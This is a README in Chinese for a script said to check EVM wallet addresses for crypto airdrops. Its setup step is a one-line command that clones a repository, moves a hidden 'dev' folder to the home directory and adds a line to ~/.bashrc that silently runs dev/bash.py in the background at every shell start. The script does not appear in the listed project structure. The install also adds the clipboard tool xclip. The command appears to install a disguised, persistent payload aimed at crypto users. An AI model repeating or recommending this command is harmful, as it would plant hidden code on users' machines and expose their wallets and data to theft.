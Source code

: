 # Airdrops Checker

本项目是一个用于查询 EVM 区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

---

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

---

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip jq python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

---

## 使用方法

### »»» 方法 1

使用以下命令运行脚本，按提示输入 EVM 地址。

```bash
./check.sh
```

---

### »»» 方法 2

```bash
python3 check.py ＜你的地址＞    #查询单一地址。
python3 check.py wallets.txt     #查询多个地址。（运行前须先在 wallets.txt 中添加地址列表）
```

---

### »»» 输出示例

```
查询地址: 0xaF616dABa40f81b75aF5373294d4dBE29DD0E0f6
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0.25307
    是否已领取: null
-------------------------------
  项目: optimism
    积分: -
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: scroll
    积分: 82.65113830566406
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: swell
    积分: 686.8572
    代币数量: 787.6345974761247
==================================================
```

---

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

---

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

---

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。
